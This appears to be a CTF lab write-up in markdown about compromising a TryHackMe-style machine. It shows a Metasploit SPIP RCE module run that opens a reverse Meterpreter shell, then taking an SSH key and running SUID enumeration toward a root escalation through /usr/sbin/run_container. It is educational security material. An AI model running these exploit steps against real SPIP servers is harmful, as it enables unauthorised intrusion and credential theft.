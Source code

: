 
## ⚙️ Shell Access

- Start a Metasploit, search for `spip` and use module `multi/http/spip_rce_form`. Fill up all necessary parameters, run it and you will get a shell.

  ```
  msf6 exploit(multi/http/spip_rce_form) > set TARGETURI /spip
  TARGETURI => /spip
  msf6 exploit(multi/http/spip_rce_form) > set LHOST [YOUR-THM-IP]
  LHOST => [YOUR-THM-IP]
  msf6 exploit(multi/http/spip_rce_form) > set RHOSTS 10.10.167.239
  RHOSTS => 10.10.167.239
  msf6 exploit(multi/http/spip_rce_form) > run
  [*] Started reverse TCP handler on [YOUR-THM-IP]:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [*] SPIP Version detected: 4.2.0
  [+] The target appears to be vulnerable. The detected SPIP version (4.2.0) is vulnerable.
  [*] Got anti-csrf token: AKXEs4U6r36PZ5LnRZXtHvxQ/ZZYCXnJB2crlmVwgtlVVXwXn/MCLPMydXPZCL/WsMlnvbq2xARLr6toNbdfE/YV7egygXhx
  [*] 10.10.167.239:80 - Attempting to exploit...
  [*] Sending stage (40004 bytes) to 10.10.167.239
  [*] Meterpreter session 1 opened ([YOUR-THM-IP]:4444 -> 10.10.167.239:48870) at 2025-06-04 20:09:28 +0100
  
  meterpreter > shell
  Process 70 created.
  Channel 0 created.
  whoami
  www-data
  ```
  
- Read the flag and take RSA key and login with SSH for more stable shell.

---

## 👑 Root Privilege Escalation

- Now, we have to escalate from user `think` to root. After enumerating SUID, I found this bad boi. `/usr/sbin/run_container`

  ```
  think@ip-10-10-167-239:~$ find / -type f -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
  -rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
  -rwsr-xr-x 1 root root 477672 Apr 11 12:16 /usr/lib/openssh/ssh-keysign
  -rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
  -rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  -rwsr-xr-- 1 root dip 395144 Jul 23  2020 /usr/sbin/pppd
  -rwsr-sr-x 1 root root 16760 Nov 14  2023 /usr/sbin/run_container
  -rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
  -rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
  -rwsr-xr-x 1 root root 88464 Feb  6  2024 /usr/bin/gpasswd
  -rwsr-xr-x 1 root root 85064 Feb  6  2024 /usr/bin/chfn
  -rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
  -rwsr-xr-x 1 root root 53040 Feb  6  2024 /usr/bin/chsh
  -rwsr-xr-x 1 root root 68208 Feb  6  2024 /usr/bin/passwd
  -rwsr-xr-x 1 root root 55528 Apr  9  2024 /usr/bin/mount
  -rwsr-xr-x 1 root root 67816 Apr  9  2024 /usr/bin/su
  -rwsr-xr-x 1 root root 44784 Feb  6  2024 /usr/bin/newgrp
  -rwsr-xr-x 1 root root 31032 Feb 21  2022 /usr/bin/pkexec
  -rwsr-xr-x 1 root root 39144 Apr  9  2024 /usr/bin/umount
  ```
  